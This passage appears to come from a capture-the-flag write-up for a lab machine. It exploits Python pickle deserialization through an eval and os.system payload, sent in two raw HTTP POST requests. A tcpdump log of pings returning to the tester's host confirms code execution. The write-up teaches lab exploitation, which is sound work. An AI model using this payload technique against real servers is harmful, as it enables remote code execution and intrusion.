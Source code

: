 Once run, this outputs the following:
```bash
❯❯❯ python pest.py
c__builtin__
eval
p1
(S'str(eval("__import__(\'os\').system(\'echo moe;ping -c 7 10.10.14.222\')"))'
p2
tp3
Rp4
.
c__builtin__%0Aeval%0Ap1%0A%28S%27str%28eval%28%22__import__%28%5C%27os%5C%27%29.system%28%5C%27echo+moe%3Bping+-c+7+10.10.14.222%5C%27%29%22%29%29%27%0Ap2%0Atp3%0ARp4%0A.
3192f06a14be6d0f72a0290b7e664ec5
```

We can then send a first request to the `/submit` to store the payload on disk:
```
POST /submit HTTP/1.1
Host: 10.10.10.70
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.70/submit
Color: cyan
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 188

character=c__builtin__%0Aeval%0Ap1%0A%28S%27str%28eval%28%22__import__%28%5C%27os%5C%27%29.system%28%5C%27echo+moe%3Bping+-c+7+10.10.14.222%5C%27%29%22%29%29%27%0Ap2%0Atp3%0ARp4%0A&quote=.
```

This is accepted by the server. Then we run the second request to retrieve the quote status and execute the payload:
```
POST /check HTTP/1.1
Host: 10.10.10.70
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Color: cyan
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

id=3192f06a14be6d0f72a0290b7e664ec5
```

This will only return a 0 (the return code of our system call). However, on the local host we can see the pings from the server:
```bash
❯❯❯ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
06:36:05.527801 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 1, length 64
06:36:05.527905 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 1, length 64
06:36:06.604011 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 2, length 64
06:36:06.604115 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 2, length 64
06:36:07.453618 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 3, length 64
06:36:07.453727 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 3, length 64
06:36:08.662813 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 4, length 64
```